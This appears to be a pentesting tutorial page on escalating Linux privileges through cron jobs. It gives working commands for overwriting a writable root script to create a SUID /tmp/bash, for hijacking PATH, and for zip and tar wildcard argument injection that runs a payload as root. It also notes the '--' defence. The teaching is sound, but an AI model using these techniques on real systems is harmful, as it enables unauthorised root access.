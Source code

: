 ```yaml
---
description: Scripts that execute automatically every once in a while
---
```


# Cron Jobs

Cron Jobs are a default way to execute commands or scripts in regular intervals. You can make scripts run every 2 minutes, every hour, every 3rd day of the month, etc. These jobs are defined in files and things like environment variables, or the user they run as can be specified there.&#x20;

They execute commands as other users, so if we as a low-privilege user can change some behavior of these commands to get us as shell as that other user, we escalate privileges. For some examples of commands/files that allow you to get a shell, see [#getting-shells](./#getting-shells "mention").

## Finding Cron Jobs

Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at `/etc/crontab` which is often readable by all users:

{% code title="/etc/crontab" %}
```bash
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
{% endcode %}

Here the top 4 jobs are pretty standard. Using the `run-parts` command they just say to run the scripts inside `/etc/cron.hourly`, `/etc/cron.daily`, `/etc/cron.weekly` and `/etc/cron.monthly`. They also say exactly when it will run, indicated by the first 5 values. The `/etc/cron.daily` directory for example runs every day at 6:25 AM, and you can see the scripts by listing them:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ls -la /etc/cron.daily
</strong>total 60
-rwxr-xr-x 1 root root   633 Jul 28  2015 apache2
-rwxr-xr-x 1 root root 14799 Apr 15  2011 apt
-rwxr-xr-x 1 root root   314 Aug 10  2011 aptitude
-rwxr-xr-x 1 root root   502 Jun 17  2010 bsdmainutils
-rwxr-xr-x 1 root root   256 Jun  5  2014 dpkg
-rwxr-xr-x 1 root root  4109 Oct 25  2012 exim4-base
-rwxr-xr-x 1 root root  2211 Oct 26  2010 locate
-rwxr-xr-x 1 root root    89 Apr 17  2010 logrotate
-rwxr-xr-x 1 root root  1335 Jan  2  2011 man-db
-rwxr-xr-x 1 root root   249 Feb 15  2011 passwd
-rwxr-xr-x 1 root root  3594 Dec 18  2010 standard
</code></pre>

Under those 4 directories, there are also two `overwrite.sh` and `compress.sh` scripts, which run **every minute** (indicated by the `* * * * *`). These are often interesting because they run so often, allowing us lots of chances to mess with them.&#x20;

{% hint style="info" %}
**Tip**: Use the `date` command to see the exact current time. Cron jobs execute at the 0-second mark so you'll know exactly when your payload should have executed.&#x20;

You can even use `watch date` to get a date output that updates every 2 seconds, so you can count down to exactly when it executes.&#x20;
{% endhint %}

Note that the `overwrite.sh` script does not have an absolute path, so we don't know yet where it is located. But we can use the `type` command to let the system resolve the PATH and find what it would execute:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ type overwrite.sh
</strong>overwrite.sh is /usr/local/bin/overwrite.sh
</code></pre>

## Overwriting scripts

These commands are executed by root, so we better make sure to check if we can overwrite any of these scripts to let root execute any commands of ours. You can use ls to check the permissions.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ls -la /usr/local/bin/overwrite.sh
</strong>-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
</code></pre>

Here we can see the owner (root) has `rwx` permissions, the staff group has `r--` permissions, and everybody else has `rw-` permissions. This means we can write to this script whatever we want:

{% code title="overwrite.sh" %}
```bash
#!/bin/bash

cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

Then whenever the cron job triggers, a `/tmp/bash` file is created which we can get a shell from using:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ /tmp/bash -p
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

## PATH Variable

As seen in the crontab, some environment variables can be set before each job executes. One of these is the PATH, which just contains directories split by `:` where commands without absolute paths are found. Whenever you have write permissions over any of these directories, you can overwrite the relative commands with your own malicious script:

{% code title="PATH containing /home/user" %}
```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```
{% endcode %}

{% hint style="warning" %}
Note that the first items in this PATH variable have the highest priority. If your writable directory is later in the PATH make sure the command is not defined in any directories before it.&#x20;
{% endhint %}

In this example, we saw the `overwrite.sh` command is executed, which is stored in `/usr/local/bin`. This comes after our writable `/home/user` directory meaning we can overwrite it with our own script:

{% code title="/home/user/overwrite.sh" %}
```bash
#!/bin/bash

cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

Then we just need to make sure the script is actually executable by everyone:

```shell-session
$ chmod +x /home/user/overwrite.sh
```

When the cron job now triggers, the relative `overwrite.sh` command will first be found in the `/home/user` directory which we created, giving us a shell in `/tmp/bash`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ /tmp/bash -p
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

## Wildcards

Bash allows you to use `*` wildcards in commands to insert any files that match the wildcard. This works by inserting all the matched files after each other separated by spaces in the command since most commands allow you to add as many files as you want by just adding more arguments.&#x20;

<pre class="language-shell-session" data-title="Example"><code class="lang-shell-session"><strong>$ ls -l
</strong>total 276
drwxrwxr-x  2 user   user     4096 Aug 20 16:00 directory/
-rw-rw-r--  1 user   user        0 Aug 20 16:00 first
-rw-rw-r--  1 user   user        0 Aug 20 16:00 second
<strong>$ file *  # Wildcard
</strong>directory: directory
first:     empty
second:    empty
<strong>$ file directory first second  # Equivalent
</strong>directory: directory
first:     empty
second:    empty
</code></pre>

The problem arises when you can create files starting with `-`, which are often flags to change the behavior of a command. Bash just pastes the files into the command, not bothering to check if any of them start with the `-` dash. This means we can add flags to the command and make it do different things.&#x20;

With the `file` command, for example, something innocent we can do is use the `-F` option to change the `:` separator we saw earlier. Arguments often don't need a space character, so we can just create a file called `-Fsomething` to add this argument to the file command if the wildcard is used. Another common way to pass arguments is by using the `=` equals sign for `--` arguments, like `--separator=something`. Here are two examples:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ touch -- -Fsomething  # Attack
</strong><strong>$ file *
</strong>directorysomething directory
firstsomething     empty
secondsomething    empty
<strong>$ rm -- -Fsomething  # Remove previous attack
</strong>
<strong>$ touch -- --separator=something  # Other attack
</strong><strong>$ file *
</strong>directorysomething directory
firstsomething     empty
secondsomething    empty
</code></pre>

{% hint style="info" %}
**Tip**: Use the `--` characters alone to not interpret the following arguments as flags. This is how you should secure a wildcard vulnerability like this, and also how you can easily place your payload using without `touch` thinking they're flags too.&#x20;
{% endhint %}

One limitation you have is the fact that the `*` wildcard orders your arguments alphabetically. Luckily the `-` dash character comes before other alphanumeric characters, meaning our injected arguments will always be first. You just have to find a way to add arguments that allow you to do unintended things.&#x20;

### ZIP

{% code title="Vulnerable command" %}
```bash
zip /tmp/backup.zip *
```
{% endcode %}

```shell-session
$ nano shell.sh  # Any payload you want to execute
$ touch -- -T
$ touch -- '--unzip-command=sh shell.sh'
```

### Tar

{% code title="Vulnerable command" %}
```shell-session
tar czf /tmp/backup.tar.gz *
```
{% endcode %}

```shell-session
$ nano shell.sh  # Any payload you want to execute
$ touch -- --checkpoint=1
$ touch -- '--checkpoint-action=exec=sh shell.sh'
```
